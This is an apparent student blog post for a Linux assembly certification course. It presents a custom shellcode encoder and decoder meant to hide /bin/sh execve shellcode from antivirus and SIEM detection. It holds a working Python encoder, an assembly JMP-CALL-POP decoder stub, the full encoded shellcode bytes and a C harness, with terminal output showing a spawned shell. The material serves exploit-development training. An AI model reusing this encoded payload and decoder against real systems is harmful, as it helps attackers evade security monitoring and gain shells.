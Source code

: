 **Assignment 4**

Custom encoder and decoder for bin/sh shellcode

**Introduction**

	A shellcode encoder is used to modify an existing shellcode to make it harder to detect by AV engines / SIEM tools 

	The encoder itself doesn’t provide any real security however since the obfuscation scheme is built into the code and is therefore reversible by anyone who has access to the encoded shellcode. This should not be confused with encryption, where security is based on the key and not the secrecy of the encryption scheme


**Methadology**

	Following is the Encoding schema being used in the order

		Each byte of the /bin/sh shellcode is decremented by 1
		NOT operation on each bytes
		Each byte is Xor ed with 0xbb


	This Encoded payload is generated using a python script

	The Decoding schema being used in the order
		Each byte is Xor ed with 0xbb
		NOT operation on each bytes
		Each byte is incremented by 1




	EncoderScript.py	

	Following script takes the shellcode and perform the above mentioned encoding operation for each byte.

		#!/bin/python3

		import socket
		import sys

		sc_original = (b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
									#/bin/sh shellcode
									#shellcode is considered as a byte array
		enc = ""
		enc2= ""

		for c in bytearray(sc_original):
        	 a = c - 0x01            	#each byte is decremented by 1
        	 b = ~a                  	#NOT operation
        	 c = b^0xBB              	#XOR operation on each byte 
        								#based on premise A XOR B = C , C XOR B = A
        	 enc+= '\\x'
        	 enc+= "%02x" %(c & 0xff)

       	 	 enc2+= "0x"
        	 enc2+= "%02x," %(c & 0xff)


		print("Encoded Payload:  ")
		print("----------------------")

		s2 = enc2.rstrip(',')
		print(s2)


		toor@ubuntu:~/Desktop/slae/Assignments/4$ python3 encodecreaterpy3.py
		Encoded Payload:
		----------------------
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b
		toor@ubuntu:~/Desktop/slae/Assignments/4$


	We have the encoded payload now 
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b

	a 0xbb is appended to the encoded shellcode to make the program easier ie appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload. Now the payload would be .

	Its worth mentioning that A XOR A = 0 , so when you perform an xor operation make sure that the operator byte is not in the encoded payload
	
	Final Payload would be,
		0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb

	Now ,we write a assembly program to decode this encoded shellcode 

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat damn.asm
		global _start

		section .text

		_start:

        		jmp short step_1
		step_2:
        		pop edi

		decoder:

        		cmp byte [edi],0xbb
        		jz shellcode

        		xor byte [edi],0xbb  ;xor with bb
        		not byte [edi]       ;not operation
        		inc byte [edi]       ;inc byte

        		inc edi
        		jmp short decoder


		step_1:
        		call step_2
        	shellcode: db 0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$


	Program starts with a jmp to step_1  and then a call to step_2
	The decoder uses the JMP CALL POP technique to push the address of the encoded shellcode on the stack. so when the call instruction is executed the address of the next instruction is put on to the stack on the premise that once the function is over ,the control is given back to the next instruction

	So the Address of the variable shellcode is put onto the stack and is poped on to edi

	Appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload . A comparison operator is used here to check whether rhe operation is complete

	Each byte of "shellcode" will be undergoing decoder process ie

								xor with 0xbb
								not operation
								increment 
   	Once the process is over control is given to the shellcode address ,where the /bin/sh decoded shellcode is .


**Practical**

Extracting shellcode
	
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ objdump -d ./damn|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb"
	
	The shellcode is copied onto a shellcode test c wrapper program t give control to the shellcode

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat shellcodetest.c
		#include<stdio.h>
		#include<string.h>

		char code[] = 	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb";

		int main(void)
		{
        	printf("shellcode length: %d\n",strlen(code));
        	(*(void(*)()) code)();
		}


		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ nano shellcodetest.c
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ gcc -fno-stack-protector -z execstack shellcodetest.c -o shellcode
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ ./shellcode
		shellcode length: 49
		$ id
		uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	Works like a charm!

**Github Repository**

	This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
